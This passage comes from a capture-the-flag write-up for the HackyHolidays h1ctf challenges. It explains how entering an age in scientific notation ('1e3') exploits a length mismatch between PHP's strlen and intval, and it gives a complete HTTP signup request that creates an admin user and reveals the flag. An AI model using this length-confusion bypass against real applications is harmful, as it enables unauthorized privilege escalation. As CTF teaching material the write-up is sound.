 The `is_numeric` check assures that `age` is numeric, which rules out multibyte attacks again. However, it is not only possible to enter decimal values, `is_numeric` also accepts other representation of numbers.

After some trial and error, I found out that there is an inconsistency regarding the length in `strlen()` vs `intval()` when using numbers in scientific notation: `intval(1e3)` equals `1000` which is of length 4, but `strlen(1e3)` is 3:

```
$ php -A
php > $x = "1e3"; echo is_numeric($x) . " " . strlen($x) . " " . intval($x) . " " . str_pad(intval($x), 3, "#");
1 3 1000 1000
```

This allows us to make the user entry 1 character longer than expected. The final `N` is cut off before adding this entry to `users.txt`, therefore an admin user can be created by adding `Y` as the very last character of the line which is the last character of a 15 character long `lastname` parameter.

The following request creates an admin user:

```
POST /signup-manager/ HTTP/1.1
Host: hackyholidays.h1ctf.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 94
Connection: close

action=signup&username=lumi&password=nougatzzz&age=1e3&firstname=lumi&lastname=AAAAAAAAAAAAAAY
```

When logging in with `lumi:nougatzzz`, admin.php gets included in the page which contains the flag, `flag{99309f0f-1752-44a5-af1e-a03e4150757d}`, as well as a link to the 11th challenge:

{F1138949}


## Flag 11 - Recon Server

Using the link from the 10th challenge, it is possible to access the recon server challenge under `https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59`.

{F1138950}

What struck my attention first were the requests that load images, e.g.:

```
GET /r3c0n_server_4fdk59/picture?data=eyJpbWFnZSI6InIzYzBuX3NlcnZlcl80ZmRrNTlcL3VwbG9hZHNcLzliODgxYWY4YjMyZmYwN2Y2ZGFhZGE5NWZmNzBkYzNhLmpwZyIsImF1dGgiOiJlOTM0ZjQ0MDdhOWRmOWZkMjcyY2RiOWMzOTdmNjczZiJ9 HTTP/1.1
Host: hackyholidays.h1ctf.com
Connection: close
```

When base64 decoding the `data` parameter, one can see that it contains a JSON object (as expected when looking at the first few characters of the base64 string):
